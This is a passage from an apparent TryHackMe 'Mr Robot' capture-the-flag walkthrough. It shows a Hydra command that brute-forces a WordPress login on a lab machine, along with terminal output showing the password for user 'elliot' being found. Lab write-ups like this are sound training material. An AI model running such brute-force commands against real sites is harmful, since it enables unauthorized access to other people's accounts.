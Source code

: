 We found our username, let's now brute force the password using the same command but with some changes: `$ hydra -l elliot -P sorted.dic 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`

```terminal
 $ hydra -l elliot -P sorted.dic 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"         130 ⨯
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 10:10:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.117.187:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username
[STATUS] 1174.00 tries/min, 1174 tries in 00:01h, 10278 to do in 00:09h, 16 active
[STATUS] 1169.67 tries/min, 3509 tries in 00:03h, 7943 to do in 00:07h, 16 active
[80][http-post-form] host: 10.10.117.187   login: elliot   password: 'redacted'
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-21 10:15:55
```

Great, we got the password, now let's login using the credentials we found.

![elliot.png](/assets/img/tryhackme/mrrobotctf/elliot.png)

# **Foothold**
